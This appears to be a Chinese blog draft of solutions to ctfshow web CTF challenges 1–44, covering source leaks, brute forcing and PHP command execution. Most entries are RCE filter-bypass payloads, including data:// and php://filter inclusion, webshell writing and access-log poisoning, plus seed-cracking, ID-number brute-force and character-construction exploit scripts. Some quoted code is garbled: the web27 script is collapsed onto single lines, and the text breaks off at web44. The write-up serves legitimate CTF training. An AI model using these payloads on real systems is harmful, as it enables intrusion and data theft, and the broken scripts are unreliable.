+++
date = '2025-02-20T00:15:50+08:00'
draft = true
title = 'Ctfshow sql篇'
+++
# CTFshow_Web

### **信息收集**：（完工）

#### Web 1-5

- 查看网页源代码
- 抓个包看有没有藏东西
- 查看robots.txt
- phps源码泄露，访问index.phps，通过其源码泄露，在其中找到flag

#### Web6

网页提示下载源码查看，访问url/www.zip得到源码文件

解压文件我们得到


打开fl00g.txt，没有我们想要的flag

打开index.php

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-01 14:37:13
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-01 14:42:44
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/
//flag in fl000g.txt
echo "web6:where is flag?"
?>
```

显示flag in fl00g.txt

直接访问url/fl00g.txt得到flag

#### web7

git泄露，访问url/.git即可得到flag

#### web8

svn泄露，访问url/.git即可得到flag

#### web9

vim缓存信息泄露，访问url/index.php.swp，打开下载的index.php.swp即可得到flag

#### web10

根据hint查看cookie可以看到

> cookie:flag=ctfshow%7B3ac14c03-64d1-41aa-9328-c97bcceeb840%7D

进行url解码即可得到flag


#### web11

域名解析

我们可以通过nslookup来进行域名解析查询

```
nslookup -qt=格式 URL
```

```
nslookup -qt=any URL 
//遍历所有格式
```

```
nslookup -qt=TXT URL
//查询txt格式
```

#### web12

hint：有时候网站上的公开信息，就是管理员常用密码

先用dirsearch扫一下



访问admin，要求我们输入管理员账号密码，根据后台路径我们可以猜测账号为`admin`

回到主页，在网页的底部我们可以看到一个电话`Help Line Number : 372619038`

猜测电话为管理员密码，输入后成功得到flag

#### web13

在页面底部可以看到一个document


点击发现下载了一个document.pdf文件，文件里有后台的地址和账号密码

d

登录后台即可得到flag

#### web14

根据hint知道editor处应该有信息泄漏(虽然不知道什么是editor)

我们先用dirsearch扫一下后台


访问url/editor


是一个文字编辑的页面，我们可以发现在上传附件📎出可以调用出到服务器的文件管理器

在服务器的根目录没看到flag，尝试查看网站的根目录(var/www/html),看看有没有隐藏页面

发现nothinghere文件夹中有个fl00g.txt文件

访问url/nothinghere/f1000g.txt即可得到flag

#### web15

扫描到后台为url/admin，打开看到有个忘记密码，要求输入城市


根据hint我们可以在主页底部找到一个qq邮箱，查询一下qq号


得到信息，现居陕西西安

输入西安成功重置密码，输入重置密码和帐号admin，成功得到flag

#### Web16

探针泄漏

dirsearch 扫描不到这个探针，看wp才知道的

探针在url/tz.php

访问探针


在指针里面可以找到phpinfo页面

打开在phpinfo里面可以找到flag


#### web17

sql备份泄漏


用dirsearch扫出来存在sql备份泄漏，下载backup.sql，打开得到flag


#### web18

本题是一个游戏，玩到101分就能得到flag

我们直接看js

Flappy_js.js



审一下代码，我们可以看到当分数大于100的时候会输出这段文字，这段文字看着像unidcode编码，解码试试


根据提示访问url/110.php,得到flag

#### web19

题目是一个登录的页面，根据hint查看网页源代码


根据提示，这道题应该是一道对密码进行了加密的题目

审阅一下代码我们得到这些信息

> mode模式： CBC padding 填充方式： ZeroPadding
> 密文输出编码： 十六进制hex 偏移量iv: ilove36dverymuch 密钥：0000000372619038
> 密文为： a599ac85a73384ee3219fa684296eaa62667238d608efa81837030bd1ce1bf04

[AES 加密/解密 - 锤子在线工具](https://www.toolhelper.cn/SymmetricEncryption/AES)

用解密工具解密一下密文我们可以得到密码为



输入密码，得到flag

#### web20

> hint：mdb文件是早期asp+access构架的数据库文件，文件泄露相当于数据库被脱裤了。

这是一个使用access数据库的asp程序

根据提示本题存在mdb文件泄露，那我们直接访问url/db/db.mdb

下载db.mdb文件后用记事本打开搜索flag，即可得到 flag{ctfshow_old_database}



### 爆破：（完工）

#### web21


抓个包


我们可以看到他的账号密码是通过base64编码加密后再发送的，问题不大

payload设置如下


我们还要设置一下payload处理


开始爆破，根据长度或者状态码判断即可


#### web22

域名爆破

通过爆破ctf.show的子域名可以爆破到flag.ctf.show

访问即可得到flag(虽然已经挂了)

#### web23

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-03 11:43:51
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-03 11:56:11
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/
error_reporting(0);

include('flag.php');
if(isset($_GET['token'])){
    $token = md5($_GET['token']);
    if(substr($token, 1,1)===substr($token, 14,1) && substr($token, 14,1) ===substr($token, 17,1)){
        if((intval(substr($token, 1,1))+intval(substr($token, 14,1))+substr($token, 17,1))/substr($token, 1,1)===intval(substr($token, 31,1))){
            echo $flag;
        }
    }
}else{
    highlight_file(__FILE__);

}
?>
```

分析代码可知： 需要找到一个合适的 token 值，使得以下条件成立：

1、md5(token) 的第 1 位（从 0 开始算）等于第 14 位

2、md5(token) 的第 14 位等于第 17 位。

3、md5(token) 的第 1 位的整数值、14 位的整数值、和 17 位的整数值的和除以第 1 位的整数值等于第 31 位的整数值。


既然不知道怎么凑那我们可以尝试爆破

通过bp爆破一下1-1000中是否有符合上述条件的字符串


哎我草，怎么就爆破出来了，虽然不知道为什么纯数字还能爆出来

其他解法，可以用大佬的脚本

```python
# coding: utf-8
# alberthao
import hashlib

dic = '0123456789qazwsxedcrfvtgbyhnujmikolp'
for a in dic:
    for b in dic:
        t = str(a) + str(b)
        md5 = hashlib.md5(t.encode('utf-8')).hexdigest()
        # print md5
        # print md5[1:2]
        # print md5[14:15]
        # print md5[17:18]
        if md5[1:2] == md5[14:15] and md5[14:15] == md5[17:18]:
            if (ord(md5[1:2])) >= 48 and ord(md5[1:2]) <= 57 and (ord(md5[14:15])) >= 48 and ord(md5[14:15]) <= 57:
                if (ord(md5[17:18])) >= 48 and ord(md5[17:18]) <= 57 and (ord(md5[31:32])) >= 48 and ord(
                        md5[31:32]) <= 57:
                    if (int(md5[1:2]) + int(md5[14:15]) + int(md5[17:18])) / int(md5[1:2]) == int(md5[31:32]):
                        print(t)
```

or

```python
import hashlib
for i in range(1,10000):

md5 = hashlib.md5(str(i).encode('utf-8')).hexdigest()

if md5[1] != md5[14] or md5[14]!= md5[17]:
	continue

if(ord(md5[1]))>=48 and ord(md5[1])<=57 and (ord(md5[31]))>=48 and ord(md5[31])<=57:

	if((int(md5[1])+int(md5[14])+int(md5[17]))/int(md5[1])==int(md5[31])):

		print(i)
```

#### web24

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-03 13:26:39
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-03 13:53:31
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

error_reporting(0);
include("flag.php");
if(isset($_GET['r'])){
    $r = $_GET['r'];
    mt_srand(372619038);
    if(intval($r)===intval(mt_rand())){
        echo $flag;
    }
}else{
    highlight_file(__FILE__);
    echo system('cat /proc/version');
}

?>
```

这道题考察的是一个php伪随机数的题目

> mt_scrand(seed)这个函数的意思，是通过分发seed种子，然后种子有了后，靠mt_rand()生成随机 数。 提示：从 PHP 4.2.0 开始，随机数生成器自动播种，因此没有必要使用该函数 因此不需要播种，并且如果设置了 seed参数 生成的随机数就是伪随机数，意思就是每次生成的随机数 是一样的

虽然说是随机数，但是同一个种子会生成同一串数字

poc

```php
<?php 
mt_srand(372619038);
echo intval(mt_rand()); 
?>
```

不知道跟版本有没有关系，我随便找的php在线运行，成功得到flag

#### web25

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-03 13:56:57
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-03 15:47:33
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


error_reporting(0);
include("flag.php");
if(isset($_GET['r'])){
    $r = $_GET['r'];
    mt_srand(hexdec(substr(md5($flag), 0,8)));
    $rand = intval($r)-intval(mt_rand());
    if((!$rand)){
        if($_COOKIE['token']==(mt_rand()+mt_rand())){
            echo $flag;
        }
    }else{
        echo $rand;
    }
}else{
    highlight_file(__FILE__);
    echo system('cat /proc/version');
}
```

继续php伪随机数

我们需要知道一个性质

当mt_srand()中的种子是固定的，那么我们生成的随机数的序列就是相同的，如下

```php
<?php

mt_srand(1852100618);

echo mt_rand();
echo mt_rand();
echo mt_rand();
echo mt_rand();

'''
1640856123
1390302953
893879251
859994814
```

在这道题里面我们需要得到前三个随机数

第一个随机数我们可以使r=0得到，第一个随机数为1640856123


得到第一个随机数之后我们可以通过爆破的方式得到种子，从而得到第二，第三个随机数

php脚本(极其慢)

```php
<?php
$a= 390148868;//第一个随机数
$b= 0 ;
while (true){
    mt_srand($b);
    if(mt_rand()==$a){
        echo "success:"+$b;
        break;
    }
    echo $b;
    echo "\n";
    $b+=1;

}
```

或者使用php_mt_seed-4.0工具


我们可以看到不同版本的seed是不同的，我们一个个试试就行了

```php
mt_srand(1852100618);
echo mt_rand();// 第一次随机数（不能少）
echo "\ntoken：";
echo (mt_rand()+mt_rand()); //第二和第三次随机数相加，也就是我们要对token
```

得到token的值，我们只需要使rand为零即可得到flag

也就是说我们只需要使r等于第一次随机数即可

传参，得到flag


#### web26


这么多我咋爆，赌一把只爆密码


#### web27


这题是一个教务系统，需要通过账号密码登录

先信息收集一下

我们可以看到在账号密码下面有一个录取名单和学生学籍信息查询系统


分别如上，那我们是否可以通过爆破学生的身份证信息从而通过录取查询查到学生的信息呢？

bp抓个包


哎我草，我数据呢

forward一下（是因为数据实际上在checkdb.php才提交吗？不是很懂）


我们可以发现其实身份证缺失的部分刚好是出生日期

那我们可以用bp中的日期爆破功能


爆出来的msg用unicode解码一下就能得到账号密码了


贴个大佬的脚本

```python
url='https://bbc133e5-8f17-4c12-a7a2-88fecb9ac079.challenge.ctf.show/info/checkdb.php' NUM=32

def run_tasks(L): U=[] for i in L: U.append(asyncio.ensure_future(i)) loop = asyncio.get_event_loop() loop.run_until_complete(asyncio.wait(U))

class TaskRuner: def init(self,n) -> None: self.L=[] for i in range(n): self.L.append(self.task_function(i)) self.task_num=n async def task_function(self,n): pass def run(self): run_tasks(self.L) self.on_over() def on_over(self): pass

import aiohttp from urllib.parse import quote from datetime import date, timedelta

class NYR: def init(self,start_date,end_date) -> None: self.start_date=start_date self.end_date=end_date self.delta = timedelta(days=1) self.current_date = start_date def next(self): t=self.current_date if t>self.end_date: return None self.current_date+=self.delta return t

class Scanner(TaskRuner): def init(self,d1,d2,n) -> None: super().init(n) self.nyr=NYR(d1,d2) self.alive=True

async def task_function(self, n):
    while self.alive:
        u=self.nyr.next()
        if not u:
            break
        r=await self.login(u)
        if r:
            self.alive=False
async def login(self,t:date):
    url='https://bbc133e5-8f17-4c12-a7a2-88fecb9ac079.challenge.ctf.show/info/checkdb.php'
    n=t.year
    y=t.month
    r=t.day
    n=str(n)
    y=str(y)
    r=str(r)
    if len(y)==1:
        y='0'+y
    if len(r)==1:
        r='0'+r
    sfz='621022'+n+y+r+'5237'
    data={
        'a':'高先伊',
        'p':sfz,
    }
    sess=aiohttp.ClientSession()
    try:
        r=await sess.post(url=url,data=data,ssl=False)
        text=await r.text()
        js=loads(text)
        msg=js['msg']
        print(sfz,msg)
        await sess.close()
        return msg!='提交信息有误'
    except Exception as e:
        print(e)
        pass
    try:
        await sess.close()
    except:
        pass
    return False

async def handle_up(self,u,p):
    pass
a=Scanner(date(1990,1,1),date(2010,12,12),NUM)

a.run()
```


#### web28


这题本来不知道要干嘛


dirsearch扫一下,感觉应该是目录爆破


先爆破一下0-100


### **命令执行**：

#### web29

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 00:26:48
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

可以看到通过eval函数可以执行php代码或者系统命令，其中过滤了flag。

进行绕过就行，解法很多

> 1. c=system("cat fl*g.php | grep  -E 'fl.g' ");
>
> 2. c=system("tac fl*g.php");
>
> 3. c=system("cat fl*g.php");（用cat要右键查看源代码才能看到回显）
>
> 4. c=system("cp fl*g.php a.txt ");（访问a.txt查看）
>
> 5. c=system('echo -e " <?php \n error_reporting(0); \n  \$c= \$_GET[\'c\']; \n eval(\$c); " > a.php'); //直接新建一个页面并写入一句话木马
>    （/a.php?c=system("tac flag.php");）
>
> 6. ?c=echo \`tac fla*\`;
>
>    ....

#### web30

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 00:42:26
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

这里过滤了关键字flag，system还有php，由于过滤了system我们需要使用其他的系统函数进行命令执行

payload:

> 1. c=printf(exec("cat%20fl*"));
>
> 2. c=echo exec("cat f\lag.p\hp");
>
> 3. c=show_source(scandir(".")[2]); (这个函数会返回一个包含当前目录下所有文件和目录项的数组)
>
> 4. c=highlight_file(next(array_reverse(scandir("."))));
>
> 5. c=passthru("tac fla*");
>
> 6. c=echo \`tac fla*\`;
>
> 7. c=$a=sys;$b=tem;$c=$a.$b;$c("tac fla*");*
>
> 8. c=echo shell_exec("tac fla*");
>
> 9. c=eval($_GET[1]);&1=system("tac flag.php");
>
> 10. c=passthru(base64_decode("Y2F0IGZsYWcucGhw=="));(base64绕过)
>
>     ......

#### web31

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 00:49:10
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

这题屏蔽了关键词 /flag|system|php|cat|sort|shell|\.| |\'

payload:

> 1. c=eval($_GET[1]);&1=system("tac flag.php");
> 2. c=show_source(scandir(getcwd())[2]);
> 3. c=show_source(next(array_reverse(scandir(pos(localeconv())))));
> 4. c=passthru("tac%09fla*");
> 5. c=echo\`tac%09fla*\`;

#### web32

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 00:56:31
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

这题屏蔽了关键词 /flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(

*过滤了空格可以用`${IFS}`和`%0a` 代替，分号可以用`?>`代替*

用include构造payload：

> url/?c=include$_GET[1]?>&1=php://filter/convert.base64-encode/resource=flag.php
>
> 或者
>
> url/?c=include$_GET[1]?>&1=data://text/plain,<?php%20system("tac%20flag.php")?>

得到的结果用base64解码一下就可以得到flag了

或者用日志注入：

> url/?c=include$_GET[1]?%3E&1=../../../../var/log/nginx/access.log
> `/var/log/nginx/access.log是nginx默认的access日志路径，访问该路径时，在User-Agent中写入一句话木马，然后用中国蚁剑连接即可`

#### web33

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 02:22:27
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/
//
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\"/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

屏蔽的关键词比上一题多了个双引号 /flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\"

继续使用include构造payload：

> url/?c=include$_GET[1]?>&1=php://filter/convert.base64-encode/resource=flag.php
>
> 或者
>
> url/?c=include$_GET[1]?>&1=data://text/plain,<?php%20system("tac%20flag.php")?>

#### web34

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 04:21:29
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/

error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\:|\"/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

屏蔽的关键词 /flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\:|\"

继续使用include构造payload：

> url/?c=include$_GET[1]?>&1=php://filter/convert.base64-encode/resource=flag.php
>
> 或者
>
> url/?c=include$_GET[1]?>&1=data://text/plain,<?php%20system("tac%20flag.php")?>

#### web35

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 04:21:23
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/

error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\:|\"|\<|\=/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

屏蔽关键词 /flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\:|\"|\<|\=

继续使用include构造payload：（wsm还能秒）

> url/?c=include$_GET[1]?>&1=php://filter/convert.base64-encode/resource=flag.php
>
> 或者
>
> url/?c=include$_GET[1]?>&1=data://text/plain,<?php%20system("tac%20flag.php")?>

#### web36

```php
<?php

/*
\# -*- coding: utf-8 -*-
\# @Author: h1xa
\# @Date:  2020-09-04 00:12:34
\# @Last Modified by:  h1xa
\# @Last Modified time: 2020-09-04 04:21:16
\# @email: h1xa@ctfer.com
\# @link: https://ctfer.com
*/

error_reporting(0);
if(isset($_GET['c'])){
  $c = $_GET['c'];
  if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\:|\"|\<|\=|\/|[0-9]/i", $c)){
    eval($c);
  }
  
}else{
  highlight_file(__FILE__);
}
```

屏蔽关键字 /flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\:|\"|\<|\=|\/|[0-9]

不是哥们，数字也要屏蔽，那我改一下不就好了

继续使用include构造payload：

> url/?c=include$_GET[m]?>&m=php://filter/convert.base64-encode/resource=flag.php
>
> 或者
>
> url/?c=include$_GET[m]?>&m=data://text/plain,<?php%20system("tac%20flag.php")?>

#### web37

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 05:18:55
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/

//flag in flag.php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        include($c);
        echo $flag;
    
    }
        
}else{
    highlight_file(__FILE__);
}
```

不是哥们，怎么还是文件包含

payload：

> ?c=data://text/plain,<?php system("tac fla*.php")?>
>
> 或者
>
> ?c=data://text/plain;base64,PD9waHAgCnN5c3RlbSgidGFjIGZsYWcucGhwIikKPz4=

#### web38

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 05:23:36
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/

//flag in flag.php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|php|file/i", $c)){
        include($c);
        echo $flag;
    
    }
        
}else{
    highlight_file(__FILE__);
}
```

payload:

> ?c=data://text/plain,<?=system("tac%20fla*")?>
>
> 或者
>
> ?c=data://text/plain;base64,PD9waHAgCnN5c3RlbSgidGFjIGZsYWcucGhwIikKPz4=

#### web39

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 06:13:21
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/

//flag in flag.php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        include($c.".php");
    }
        
}else{
    highlight_file(__FILE__);
}
```

这里会在我们传入的c后面拼接一段.php

我们只需要在加入<?php ?>那么php就只会执行中间的代码，后面的内容不会执行

故payload：

> ?c=data://text/plain,<?php system("tac fla*.php")?>

#### web40

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 06:03:36
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/


if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/[0-9]|\~|\`|\@|\#|\\$|\%|\^|\&|\*|\（|\）|\-|\=|\+|\{|\[|\]|\}|\:|\'|\"|\,|\<|\.|\>|\/|\?|\\\\/i", $c)){
        eval($c);
    }
        
}else{
    highlight_file(__FILE__);
}
```

屏蔽关键词 /[0-9]|\~|\`|\@|\#|\\$|\%|\^|\&|\*|\（|\）|\-|\=|\+|\{|\[|\]|\}|\:|\'|\"|\,|\<|\.|\>|\/|\?|\\\\

这里要使用无参命令执行

payload：

> ?c=show_source(next(array_reverse(scandir(pos(localeconv())))));

关于无参命令执行的一些解释


#### web41

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: 羽
# @Date:   2020-09-05 20:31:22
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-05 22:40:07
# @email: 1341963450@qq.com
# @link: https://ctf.show

*/

if(isset($_POST['c'])){
    $c = $_POST['c'];
if(!preg_match('/[0-9]|[a-z]|\^|\+|\~|\$|\[|\]|\{|\}|\&|\-/i', $c)){
        eval("echo($c);");
    }
}else{
    highlight_file(__FILE__);
}
?>
```

过滤内容：`/[0-9]|[a-z]|\^|\+|\~|\$|\[|\]|\{|\}|\&|\-/i`

这个题过滤了`$、+、-、^、~`使得**异或自增和取反**构造字符都无法使用，同时过滤了字母和数字。但是特意留了个或[运算符](https://so.csdn.net/so/search?q=运算符&spm=1001.2101.3001.7020)`|`。
我们可以尝试从ascii为0-255的字符中，找到或运算能得到我们可用的字符的字符。

大佬的脚本

```php
<?php
$myfile = fopen("rce_or.txt", "w");
$contents="";
for ($i=0; $i < 256; $i++) { 
	for ($j=0; $j <256 ; $j++) { 

		if($i<16){
			$hex_i='0'.dechex($i);
		}
		else{
			$hex_i=dechex($i);
		}
		if($j<16){
			$hex_j='0'.dechex($j);
		}
		else{
			$hex_j=dechex($j);
		}
		$preg = '/[0-9]|[a-z]|\^|\+|\~|\$|\[|\]|\{|\}|\&|\-/i';
		if(preg_match($preg , hex2bin($hex_i))||preg_match($preg , hex2bin($hex_j))){
					echo "";
    }
  
		else{
		$a='%'.$hex_i;
		$b='%'.$hex_j;
		$c=(urldecode($a)|urldecode($b));
		if (ord($c)>=32&ord($c)<=126) {
			$contents=$contents.$c." ".$a." ".$b."\n";
		}
	}

}
}
fwrite($myfile,$contents);
fclose($myfile);

```

```python
# -*- coding: utf-8 -*-
import requests
import urllib
from sys import *
import os
os.system("php rce_or.php")  #没有将php写入环境变量需手动运行
if(len(argv)!=2):
   print("="*50)
   print('USER：python exp.py <url>')
   print("eg：  python exp.py http://ctf.show/")
   print("="*50)
   exit(0)
url=argv[1]
def action(arg):
   s1=""
   s2=""
   for i in arg:
       f=open("rce_or.txt","r")
       while True:
           t=f.readline()
           if t=="":
               break
           if t[0]==i:
               #print(i)
               s1+=t[2:5]
               s2+=t[6:9]
               break
       f.close()
   output="(\""+s1+"\"|\""+s2+"\")"
   return(output)
   
while True:
   param=action(input("\n[+] your function：") )+action(input("[+] your command："))
   data={
       'c':urllib.parse.unquote(param)
       }
   r=requests.post(url,data=data)
   print("\n[*] result:\n"+r.text)

```

将两个文件放在同一个文件夹，运行exp.py即可

羽师傅nb


> 注意链接要用http不能用https

#### web42

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-05 20:51:55
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    system($c." >/dev/null 2>&1");
}else{
    highlight_file(__FILE__);
}
```

这道题会将我们输入的命令与`" >/dev/null 2>&1"`进行拼接

> /dev/null 2>&1 意思是将标准输出和标准错误都重定向到 /dev/null 即不回显

导致我们无法成功执行

我们可以通过`%0a`截断的方式绕过

> tac fl*%0a

or

> ; //分号
> | //只执行后面那条命令
> || //只执行前面那条命令
> & //两条命令都会执行
> && //两条命令都会执行
>
> 过滤了分号和cat，可以用||和&来代替分号，tac代替cat
>
> 可构造playload:
> url/?c=tac flag.php||
> url/?c=tac flag.php%26
> 注意，这里的&需要url编码

#### web43

过滤了cat、；，

不是很影响

```
tac fl*%0a

or

tac flag.php||

...
//记得转url编码
```

#### web44

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-05 21:32:01
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/;|cat|flag/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```

过滤了`;|cat|flag`

小问题

```
tac fl*%0a

or

